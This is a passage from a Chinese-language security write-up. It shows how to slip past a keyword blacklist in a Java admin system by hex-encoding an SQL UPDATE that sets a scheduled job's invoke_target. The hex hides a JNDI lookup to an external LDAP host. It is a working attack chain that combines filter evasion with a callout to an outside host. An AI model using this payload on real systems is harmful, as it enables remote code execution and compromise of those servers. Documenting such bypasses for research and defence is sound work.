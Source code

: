但会触发黑名单

![image-20240306222714229](assets/1710465660-261816b36f114ac09e5dca62db9ba2c9.png)

由于是执行 sql 语句，直接将 value 转为 16 进制即可

![image-20240306222803488](assets/1710465660-3271c25d34baa1baf96eb336c0dbd4ff.png)

```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729 WHERE job_id = 1;')
```

可以成功创建  
![image-20240306222855973](assets/1710465660-d78adf963ef7b2e067221818c13a827b.png)
